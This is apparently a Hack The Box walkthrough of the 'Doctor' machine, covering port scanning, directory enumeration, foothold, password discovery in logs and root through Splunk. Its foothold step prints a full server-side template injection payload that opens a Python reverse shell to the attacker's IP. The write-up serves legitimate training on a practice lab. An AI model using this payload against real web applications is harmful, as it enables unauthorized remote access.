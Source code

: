 ```yaml
---
title: "[HTB] Machine: Doctor"
description: "[HTB] Machine: Doctor"
date: 2023-07-05
menu:
  sidebar:
    name: "[HTB] Machine: Doctor"
    identifier: htb-machine-doctor
    parent: htb-machines-linux
    weight: 10
hero: images/doctor.png
tags: ["HTB"]
---
```


# Doctor
## Enumeration
- ```Nmap```
```
└─$ nmap -Pn -sC -sV 10.10.10.209 -T4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 19:08 BST
Nmap scan report for 10.10.10.209 (10.10.10.209)
Host is up (0.11s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 594d4ec2d8cfda9da8c8d0fd99a84617 (RSA)
|   256 7ff3dcfb2dafcbff9934ace0f8001e47 (ECDSA)
|_  256 530e966b9ce9c1a170516c2dce7b43e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: splunkd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.13 seconds

```
- Web Server

![](./images/1.png)

- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.209 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --no-error -x php,txt 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.209
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/07/06 19:11:54 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.209/images/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.209/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.209/js/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.209/fonts/]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]

```

- We have `Splunk` on port `8089`

![](./images/2.png)

## Foothold
- We have an email `info@doctors.htb`
  - If we add `doctors.htb` to `/etc/hosts` file and visit it, we are redirected to `/login?next=%2F`
  - Which is served under `Werkzeug/1.0.1 Python/3.8.2`

![](./images/3.png)
![](./images/4.png)

- We can create an account and check what's inside
  - We can create posts
  - If we check the source, we have `/archive`

![](./images/5.png)
![](./images/6.png)
![](./images/7.png)
![](./images/8.png)
![](./images/9.png)

- I tested for `sqli` but found nothing
  - We might have [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), so let's test it
  - I started with basic payloads from the post
  - There was nothing on the `post` page, but if we visit `/archive` page we see the results

![](./images/10.png)
![](./images/11.png)
![](./images/12.png)

- Let's get reverse shell
  - I used payload from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)
    - `{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.16.12\",6666)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}`
  - Launch a listener, create a new post and visit the `/archive`

![](./images/13.png)
![](./images/14.png)
![](./images/15.png)

## User
- Let's run `linpeas`
  - We find an interesting entry in logs `POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password`
  - It happens to be `shaun`'s password
  
![](./images/16.png)
![](./images/17.png)


## Root
- `linpeas` found nothing
  - Then I started enumerating `splunk`
    - `searchsploit` has nothing 
  - Found an interesting repo [SplunkWhisperer2s](https://github.com/cnotin/SplunkWhisperer2)
  - Let's test it

![](./images/18.png)

- Well, it works
  - Let's get our root

![](./images/18.png)